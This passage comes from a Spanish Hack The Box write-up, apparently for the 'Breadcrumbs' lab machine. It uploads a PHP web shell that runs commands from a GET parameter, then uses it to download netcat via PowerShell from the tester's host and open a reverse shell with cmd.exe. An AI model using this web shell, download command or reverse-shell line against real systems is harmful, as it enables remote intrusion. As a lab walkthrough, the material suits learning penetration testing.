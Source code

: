```php
...
Content-Type: application/x-php

<?php
    $coma=shell_exec($_GET['xmd']); echo $coma;
?>


-----------------------------1138605338005785511225757143
...
```

![316page80_phpF_holi_RCE](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/breadcrumbs/316page80_phpF_holi_RCE.png)

Enumerando podemos escribir en el directorio:

```powershell
C:\Users\www-data\Desktop\\xampp\tmp
```

Aprovechemos esto para subir el binario `nc` para posteriormente lanzarnos una petición hacia nuestro listener y obtener una Shell:

Nos ponemos en escucha donde tengamos el binario y ejecutamos:

```html
?xmd=powershell -c "IWR -uri http://10.10.14.194:8000/nc64.exe -OutFile C:\\Users\\www-data\\Desktop\\xampp\\tmp\\nc.exe"
```

Validamos:

```html
?xmd=dir C:\Users\www-data\Desktop\\xampp\tmp\
```

```powershell
 Volume in drive C has no label.
 Volume Serial Number is 7C07-CD3A

 Directory of C:\Users\www-data\Desktop\\xampp\tmp

03/12/2021  12:55 PM    <DIR>          .
03/12/2021  12:55 PM    <DIR>          ..
03/12/2021  12:47 PM                12 holas.txt
03/12/2021  12:55 PM            45,272 nc.exe
03/12/2021  12:53 PM                 0 sess_04f3tvcgqt3lcuabhihd56tbdv
...
```

Perfecto, ahora nos ponemos es escucha con `nc` y ejecutamos:

```html
?xmd=C:\Users\www-data\Desktop\\xampp\tmp\nc.exe 10.10.14.194 4433 -e cmd.exe
```

Yyyy:
